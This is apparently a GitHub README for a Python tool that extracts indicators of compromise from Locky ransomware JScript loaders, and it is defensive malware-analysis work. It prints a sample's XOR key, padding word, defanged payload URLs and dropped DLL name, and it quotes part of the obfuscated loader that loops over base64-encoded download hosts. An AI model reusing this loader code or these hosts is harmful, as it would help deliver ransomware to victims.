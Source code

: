 # Locky Indicator of Compromise (IOC) JSCRIPT Extractor

**Source:** https://www.flashpoint-intel.com/anatomy-locky-zepto-ransomware/

**Source:** http://www.vkremez.com/2017/02/trojan-downloaderjslocky-deobfuscate.html
```
Usage: python LockyExtractor.py 
Enter jscript file name with jscript extension: <path to the local JScript loader file>
```
**Goal**: Assist analysts with decoding and obtain relevant information from Locky HTA Application (HTA) and Windows Script File (WSF) JSCRIPT loaders.

Locky ransomware was notorious for its usage of the second-stage JavaScript and Windows Script File JSCRIPT in its spray-and-pray attacks.

**These are classic simple XOR-ed .wsf/.hta SCRIPT payloads used by this gang.**

For example, let’s take a look at the following Locky HTA JSCRIPT loader:
```
sample: 3d91a6ffed8b038363a0ead0f8985d1bdf88ba543aff0bcab048819d70455073.jscript.
```

**Padding word:**
```
LICIZAX
```
**XOR Key:**
```
b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq
```
**Payload URI: (remove padding word and decode Base64):**
```
goldenladywedding[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
www[.]jmetalloysllp[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
livewebsol[.]com/vdG76VUY76rjnu?CHhjpz=zhXHhhwS
```
**Filename in %TEMP%/AppData/ (launched by rundll32.exe with ‘qwerty'):**
```
NqmXYsBdh[.]dll
```
**Here is the relevant function right below the eval() one:**
```
var brigadabrigadalalapolicMOTALO2HORDA17 = "NqmXYsBdh";
var brigadabrigadalalapolicTRAxKey = brigadabrigadalalapolicMOTALO2fsta("b6vYxEjsTYwJ7mIrZz4WFSGHeaddkwbq");
var brigadabrigadalalapolicMOTALO2_a5 = ["Z29sZGVubGFkeLICIZAXXdlZGRpbmcuY29tL3ZkRzc2VlVZNzZyam51","dLICIZAX3d3LmptZXRhbGxveXNsbHAuYLICIZAX29tL3ZkRzc2VlVZNzZyam51","bGl2ZXdlYnNvbC5jb20vdmRHLICIZAXNzZWVVk3NnJqbnU="]; 
var brigadabrigadalalapolicMOTALO2HORDAI = 0;
for(brigadabrigadalalapolicMOTALO2HORDA5 in brigadabrigadalalapolicMOTALO2_a5){
brigadabrigadalalapolicMOTALO2HORDAI++;
try{
var brigadabrigadalalapolicMOTALO2HORDA6 =brigadabrigadalalapolicMOTALO2_bChosteck.brigadabrigadalalapolicMRADXHO() + brigadabrigadalalapolicMOTALO2_a5[brigadabrigadalalapolicMOTALO2HORDA5].brigadabrigadalalapolicMRADXHO() + "?CHhjpz=zhXHhhwS";
if(brigadabrigadalalapolicMOTALO2_a2(brigadabrigadalalapolicMOTALO2HORDA6,brigadabrigadalalapolicMOTALO2HORDA17+brigadabrigadalalapolicMOTALO2HORDAI)){
break;
```

